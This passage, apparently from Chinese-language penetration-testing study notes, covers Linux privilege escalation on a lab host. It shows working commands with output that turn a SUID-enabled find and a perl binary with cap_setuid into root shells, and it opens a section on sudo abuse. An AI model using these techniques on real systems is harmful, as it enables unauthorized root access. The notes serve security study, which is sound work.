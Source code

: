 
可以透過 `chmod u+s <filename>` 設定檔案的 SUID

##### 5. 利用 SUID 錯誤配置
在範例中，find 工具有一個錯誤配置，設定了 SUID 標誌。可以利用這個工具來運行一個 Shell，並獲得 root 權限。
```
joe@debian-privesc:~$ find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
bash-5.0# id
uid=1000(joe) gid=1000(joe) euid=0(root) groups=1000(joe),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),112(bluetooth),116(lpadmin),117(scanner)
bash-5.0#
```
> find 本身設有 SUID
> `-exec "/usr/bin/bash" -p \;`:\
`-exec` 參數允許 find 在找到的每個文件上執行指定的指令。\
`"/usr/bin/bash"` 系統內的 bash。\
`-p`: bash 內建選項，允許 bash 保持其有效 UID（EUID）不變，這意味著如果 bash 是以 root 權限執行的，它會保持 root 權限，而不會降級到普通用戶權限。
`\;` 是 find 的結束標誌，表示 -exec 命令的結束。
>> 雖然 UID 仍然屬於joe，但有效使用者 ID 來自root。

#### - Linux Capabilities
[Linux Capabilities](https://man7.org/linux/man-pages/man7/capabilities.7.html) 是一種細化的權限管理機制，允許特定的程式、二進制文件或服務獲得某些通常只有 root 才能執行的權限。例如：\
`cap_net_raw`：允許程式發送原始網路封包（用於流量監控）。\
`cap_setuid`：允許程式修改使用者 ID（UID）。\
`cap_net_admin`：允許程式執行網路管理相關操作。

##### 1. 尋找特殊 Capabilities
尋找可執行檔案擁有特殊 Capabilities
```
joe@debian-privesc:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
/usr/bin/perl5.28.1 = cap_setuid+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
> `-r /`：從根目錄開始遞迴搜尋所有檔案
>> `/usr/bin/perl = cap_setuid+ep` 與 `/usr/bin/perl5.28.1 = cap_setuid+ep` 兩個 perl binaries啟用了 setuid，`+ep` flag，可以更改自身的 UID

##### 2. 利用 Perl 提升權限
到 [GTFOBins](https://gtfobins.github.io/) 查詢 ，找到對應的 Exploit 方法
```
joe@debian-privesc:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
perl: warning: Setting locale failed.
...
# id
uid=0(root) gid=1000(joe) groups=1000(joe),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),112(bluetooth),116(lpadmin),117(scanner)
```

### Abusing Sudo
`sudo`（Superuser-Do）是一個 UNIX/Linux 工具，允許一般使用者以 root 或其他特定使用者的身份執行指令。\
要使用 sudo，該使用者必須在 sudo 群組 內（適用於 Debian-based Linux），或者 `/etc/sudoers` 文件必須明確允許該使用者執行特定指令。\
使用 `sudo -l` 或 `sudo --list` 來查看當前使用者被允許執行的 sudo 命令
```
joe@debian-privesc:~$ sudo -l
[sudo] password for joe:
Matching Defaults entries for joe on debian-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User joe may run the following commands on debian-privesc:
    (ALL) (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get
```